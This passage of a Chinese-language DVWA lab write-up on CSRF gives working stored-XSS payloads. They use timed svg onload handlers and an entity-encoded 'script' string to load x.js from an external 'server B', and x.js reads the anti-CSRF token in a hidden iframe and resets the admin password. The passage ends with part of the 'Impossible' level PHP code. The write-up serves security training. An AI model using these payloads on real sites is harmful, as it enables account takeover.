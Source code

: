 发现成功了!!!x.js 被成功加载了.但多次加载还是有问题

使用延时,人工干预执行时序
```js
<svg/onload="setTimeout(function(){s='&#115;&#99;&#114;&#105;&#112;&#116;'},3000)">
<svg/onload="setTimeout(function(){j=document.createElement(s)},4000)">
<svg/onload="setTimeout(function(){j.src='http://<服务器B>/x.js'},5000)">
<svg/onload="setTimeout(function(){document.body.appendChild(j)},6000)">
```
稳定触发

下面修改 x.js
```js
ifr = document.createElement('iframe');
ifr.src="../csrf";
ifr.hidden=1;
document.body.appendChild(ifr);
setTimeout(function(){f=frames[0];t=f.document.getElementsByName('user_token')[0].value;i=document.createElement('img');i.src='../csrf/?password_new=admin&password_conf=admin&Change=Change&user_token='+t;},3000)
```

当管理员访问留言板 XSS-Stored 时候:
1. 会先加载 `x.js`
2. `x.js` 内的脚本内容,会创建一个隐藏的 `iframe` 标签到 `DOM`
3. 等待 `iframe` 创建完成之后,便通过创建一个 `img` 标签,自动触发修改密码的请求

### Impossible

**服务器端核心代码**
```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
	// Check Anti-CSRF token
	checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

	// Get input
	$pass_curr = $_GET[ 'password_current' ];
	$pass_new  = $_GET[ 'password_new' ];
	$pass_conf = $_GET[ 'password_conf' ];

	// Sanitise current password input
	$pass_curr = stripslashes( $pass_curr );
	$pass_curr = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_curr ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
	$pass_curr = md5( $pass_curr );

	// Check that the current password is correct
	$data = $db->prepare( 'SELECT password FROM users WHERE user = (:user) AND password = (:password) LIMIT 1;' );
	$data->bindParam( ':user', dvwaCurrentUser(), PDO::PARAM_STR );
	$data->bindParam( ':password', $pass_curr, PDO::PARAM_STR );
	$data->execute();

	// Do both new passwords match and does the current password match the user?
	if( ( $pass_new == $pass_conf ) && ( $data->rowCount() == 1 ) ) {
		// It does!
		$pass_new = stripslashes( $pass_new );
		$pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
		$pass_new = md5( $pass_new );

		// Update database with new password
```